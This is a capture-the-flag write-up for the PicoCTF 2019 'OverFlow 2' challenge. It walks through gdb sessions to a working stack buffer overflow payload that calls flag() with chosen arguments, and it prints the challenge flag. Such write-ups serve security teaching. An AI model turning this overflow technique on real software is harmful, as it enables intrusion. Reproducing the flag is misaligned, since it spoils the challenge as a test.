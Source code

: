 # PicoCTF19 OverFlow 2

## Challenge

Now try overwriting arguments. Can you get the flag from this [program](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln)? You can find it in /problems/overflow-2 on the shell server. [Source](https://2019shell1.picoctf.com/static/2b7b3583b687134589781c4e22ef5760/vuln.c).

## Hints

GDB can print the stack after you send arguments

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-2$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 22:04 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-2_3    33 Sep 28 22:04 flag.txt
-rwxr-sr-x   1 hacksports overflow-2_3  7500 Sep 28 22:04 vuln
-rw-rw-r--   1 hacksports hacksports     794 Sep 28 22:04 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-2$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It seems like a program that takes in some input and prints it back to you. Let's try that and some large input.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ ./vuln
Please enter your string: 
A
A
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ echo $(python -c "print 'A'*184") | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We need to invoke the `flag()` function like `flag(0xDEADBEEF, 0xC0DED00D)` from `vuln()`

The hint suggests to look at the stack, so let's do that.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()
(gdb) info frame
Stack level 0, frame at 0x1:
 eip = 0x804872a in main; saved eip = <not saved>
 Outermost frame: Cannot access memory at address 0xfffffffd
 Arglist at 0x41414141, args: 
 Locals at 0x41414141, Previous frame's sp is 0x1
Cannot access memory at address 0xfffffffd
```

Notice how the `Arglist` is at `0x41414141`. Those are the `A`'s we passed in. So let's try a different string and see if we can figure out where in the list to enter our address and arguments.

Let's try 176 `A`'s followed by the rest of the alphabet to see what ends up at the arg list.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ`

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) bt
#0  0x45454545 in ?? ()
#1  0x46464646 in ?? ()
#2  0x47474747 in ?? ()
#3  0x48484848 in ?? ()
#4  0x49494949 in ?? ()
#5  0x4a4a4a4a in ?? ()
#6  0x4b4b4b4b in ?? ()
#7  0x4c4c4c4c in ?? ()
#8  0x4d4d4d4d in ?? ()
#9  0x4e4e4e4e in ?? ()
#10 0x4f4f4f4f in ?? ()
#11 0x50505050 in ?? ()
#12 0x51515151 in ?? ()
#13 0x52525252 in ?? ()
#14 0x53535353 in ?? ()
#15 0x54545454 in ?? ()
#16 0x55555555 in ?? ()
#17 0x56565656 in ?? ()
#18 0x57575757 in ?? ()
#19 0x58585858 in ?? ()
#20 0x59595959 in ?? ()
#21 0x5a5a5a5a in ?? ()
#22 0x00000000 in ?? ()
(gdb) info frame
Stack level 0, frame at 0xffada8e4:
 eip = 0x45454545; saved eip = 0x46464646
 called by frame at 0xffada8e8
 Arglist at 0xffada8dc, args: 
 Locals at 0xffada8dc, Previous frame's sp is 0xffada8e4
 Saved registers:
  eip at 0xffada8e0
```

```bash
(gdb) disas flag
Dump of assembler code for function flag:
   0x080485e6 <+0>:     push   %ebp
... <redacted>
   0x0804864a <+100>:   cmpl   $0xdeadbeef,0x8(%ebp)
   0x08048651 <+107>:   jne    0x804866d <flag+135>
   0x08048653 <+109>:   cmpl   $0xc0ded00d,0xc(%ebp)
   0x0804865a <+116>:   jne    0x8048670 <flag+138>
... <redacted>
   0x08048675 <+143>:   ret    
End of assembler dump.
```

Intersting, we saw that it stopped at `0x45454545` which are the `DDDD`. So now we have 176 `A`'s, 12 bytes, `FLAG_ADDRESS`. So we could use:

```bash
python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485e6)" | ./vuln
```

Now the arguments `arg1` and `arg2` won't be far past the `FLAG_ADDRESS`. Let's determine where it needs to go.

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH'" > /tmp/in
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) r < /tmp/in
Starting program: /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
[Inferior 1 (process 2734491) exited normally]
```

The program doesn't work because gdb isn't running under the same permissions. I'll copy the files over to another directory and attempt it

```bash
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ mkdir /tmp/s5
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ cp vuln /tmp/s5/vuln
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ vi /tmp/s5/flag.txt
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ cat /tmp/s5/flag.txt
SAMCTF{123123123123123}
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ pushd . && cd /tmp/s5
samson@pico-2019-shell1:/tmp/s5$ gdb ./vuln
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) b *flag
Breakpoint 1 at 0x80485e6
(gdb) b *flag+97
Breakpoint 2 at 0x8048647
(gdb) r < /tmp/in
Starting program: /tmp/s5/vuln < /tmp/in
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Breakpoint 1, 0x080485e6 in flag ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048647 in flag ()
(gdb) info stack
#0  0x08048647 in flag ()
#1  0x41414141 in ?? ()
#2  0x42424242 in ?? ()
#3  0x43434343 in ?? ()
#4  0x44444444 in ?? ()
#5  0x45454545 in ?? ()
#6  0x46464646 in ?? ()
#7  0x47474747 in ?? ()
#8  0x48484848 in ?? ()
#9  0xf7fbe000 in ?? () from /lib32/libc.so.6
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
(gdb) x $ebp
0xffffd5ac:     0x42424242
```

There it is. `ebp` is the first argument and from this [stackoverflow post](https://stackoverflow.com/questions/42771550/why-does-first-parameter-in-x86-assembly-starts-from-offset-8)
We know the arguments are just 4 places off the flag adddress.

```bash
samson@pico-2019-shell1:/tmp/s5$ popd
/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446
samson@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ python -c "from pwn import *; print 'A'*176+'B'*12+p32(0x080485E6)+'A'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
Please enter your string: 
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn51b106031}Segmentation fault (core dumped)
```

## Flag

picoCTF{arg5_and_r3turn51b106031}